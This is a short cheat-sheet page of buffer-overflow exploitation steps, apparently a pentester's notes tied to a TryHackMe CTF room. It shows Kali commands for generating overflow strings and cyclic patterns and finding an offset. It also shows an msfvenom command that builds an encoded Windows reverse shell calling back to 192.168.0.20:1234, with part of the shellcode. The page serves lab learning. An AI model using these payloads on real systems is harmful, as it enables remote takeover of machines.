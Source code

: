 # Reversing

Create a string of characters for use in buffer overflows:

```bash
root@kali:/home/kali/thm/brainstorm# python -c 'print "A" * 1000'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Use msf-pattern to create unique patterns for use in buffer overflows:

```bash
root@kali:/home/kali/thm/brainstorm# msf-pattern_create -l 2500
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7A
```

Use msf-pattern to find offset when buffer overflow has been achieved:

```bash
root@kali:/home/kali/thm/brainstorm# msf-pattern_offset -l 2500 -q 31704330
[*] Exact match at offset 2012
```

Create shellcode using MSFVenom:

```bash
root@kali:/home/kali/thm/brainstorm# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=1234 EXITFUNC=thread -f py -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xba\x40\xfd\xb6\x4c\xd9\xe9\xd9\x74\x24\xf4\x58\x31"
buf += b"\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x10\xf3\x54"
buf += b"\xb9\x6c\xe3\x1b\x42\x8c\xf4\x7b\xca\x69\xc5\xbb\xa8"
```

Those parameters explained:

```
-p windows/shell_reverse_tcp = Payload is a Windows reverse shell
LHOST=192.168.0.20           = IP to connect back to is my Kali machine
LPORT=1234                   = Port to connect to on Kali
-f py                        = Output payload in python for our script
-e x86/shikata_ga_nai        = Which encoder to use
-b "\x00"                    = Bad characters to avoid
```

Walkthroughs here for reversing/binary exploitation:

{% embed url="https://pencer.io/ctf/ctf-thm-brainstorm" %}
